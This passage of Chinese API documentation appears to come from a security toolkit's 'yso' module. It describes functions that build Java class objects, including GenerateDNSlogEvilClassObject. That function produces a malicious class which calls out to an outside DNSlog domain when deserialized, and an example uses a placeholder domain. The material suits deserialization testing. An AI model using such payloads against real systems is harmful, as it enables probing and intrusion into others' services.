 返回：成功时返回javaclassparser.ClassObject对象及nil错误，失败时返回nil及相应错误。

Example:
```
bytesCode,_ =codec.DecodeBase64("yv66vg...")
classObject, _ := yso.LoadClassFromBytes(bytesCode) // 从字节中加载并配置类对象
```


#### 定义

`GenerateClassObjectFromBytes(bytes []byte, options ...GenClassOptionFun) (*javaclassparser.ClassObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| bytes | `[]byte` |   |
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*javaclassparser.ClassObject` |   |
| r2 | `error` |   |


### GenerateDNSlogEvilClassObject

#### 详细描述
GenDnslogClassObject

GenerateDnslogEvilClassObject 生成一个使用Dnslog类模板的javaclassparser.ClassObject对象，

并设置一个指定的 Dnslog 域名。这个函数结合使用 useDNSlogTemplate 和 dnslogDomain 函数，

以生成在反序列化时会向指定的 Dnslog 域名发送请求的Java对象。

domain：要在生成的Java对象中请求的 Dnslog 域名。

options：一组可选的GenClassOptionFun函数，用于进一步定制生成的Java对象。

返回：成功时返回javaclassparser.ClassObject对象及nil错误，失败时返回nil及相应错误。

Example:
```
domain := "dnslog.com" // 假设的 Dnslog 域名
classObject, err := yso.GenerateDnslogEvilClassObject(domain, additionalOptions...) // 生成并配置Dnslog Java对象
```


#### 定义

`GenerateDNSlogEvilClassObject(domain string, options ...GenClassOptionFun) (*javaclassparser.ClassObject, error)`
